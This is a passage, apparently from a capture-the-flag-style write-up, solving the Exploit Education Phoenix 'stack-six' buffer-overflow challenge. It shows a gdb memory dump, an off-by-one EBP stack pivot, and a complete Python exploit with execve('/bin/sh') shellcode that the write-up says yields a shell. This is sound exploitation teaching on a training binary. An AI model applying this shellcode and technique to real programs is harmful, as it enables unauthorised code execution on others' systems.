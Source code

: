 ```bash
(gdb) x/64xw 0x8049930
0x8049930:      0x636c6557      0x20656d6f      0x656d6f68      0x4141202c
0x8049940:      0x41414141      0x41414141      0x41414141      0x41414141
0x8049950:      0x41414141      0x41414141      0x41414141      0x41414141
0x8049960:      0x41414141      0x41414141      0x41414141      0x41414141
0x8049970:      0x41414141      0x41414141      0x41414141      0x41414141
0x8049980:      0x41414141      0x41414141      0x41414141      0x41414141
0x8049990:      0x41414141      0x41414141      0x41414141      0x41414141
0x80499a0:      0x41414141      0x41414141      0x41414141      0x41414141
0x80499b0:      0x41414141      0x41414141      0x43434343      0xffffd544
0x80499c0:      0x0804865f      0xffffdef3      0x00000000      0x00000000
0x80499d0:      0x00000000      0x00000000      0x000000b1      0x00000620
0x80499e0:      0xf7ffb968      0xf7ffb968      0x00000000      0x00000000
0x80499f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8049a00:      0x00000000      0x00000000      0x00000000      0x00000000
0x8049a10:      0x00000000      0x00000000      0x00000000      0x00000000
0x8049a20:      0x00000000      0x00000000      0x00000000      0x00000000
```

0x8049940 looks like a good candidate. To load it as ESP, we have to add 0x4, so we use 0x8049944 for the value at EBP-0x4 that is loaded into ECX.

Running the program now is very promising:

```bash
eip            0x41414141          0x41414141
```

We control EIP! The game is now over :) All that's left is to write some shellcode into this buffer instead of "A"s.
This is our final exploit:

```python
buf = "\x08\x04\x99\x46"[::-1] # top of "new stack" -> will be EIP
buf += "\x90" * 8 # some leeway
buf += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" # /bin/sh
buf += "\x90" * (122 - len(buf)) # padding
buf += "\x08\x04\x99\x42"[::-1] # new ECX (ESP + 0x4)
buf += "\x44" # LSB for EBP
print buf
```

Running it in gdb works! We have a shell!

```bash
user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python ~/stack-six.py`
user@phoenix-amd64:/opt/phoenix/i486$ gdb stack-six
GNU gdb (GDB) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from stack-six...(no debugging symbols found)...done.
(gdb) run
Starting program: /opt/phoenix/i486/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
```